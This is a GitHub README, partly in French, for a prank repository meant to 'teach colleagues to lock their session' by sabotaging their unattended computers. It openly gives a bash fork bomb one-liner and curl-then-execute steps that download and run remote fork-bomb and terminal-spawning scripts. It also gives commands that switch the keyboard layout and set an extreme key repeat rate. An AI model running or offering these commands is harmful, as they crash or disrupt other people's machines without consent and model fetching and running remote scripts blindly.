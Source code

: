 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

Niveau de sévérité :

- 💚 : faible
- 💛 : moyen
- ❤️ : fort

## Forkbomb ❤️

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh > forkbomb.sh
chmod +x forkbomb.sh
./forkbomb.sh
```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster 💚

Opens terminal at infinity. [work with gnome-terminal]

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/Terminal-Monster.sh > Terminal-Monster.sh
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer 💛

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```

## Sanic Keyboard ❤️

Gotta go fast

```
xset r rate 1 220
```
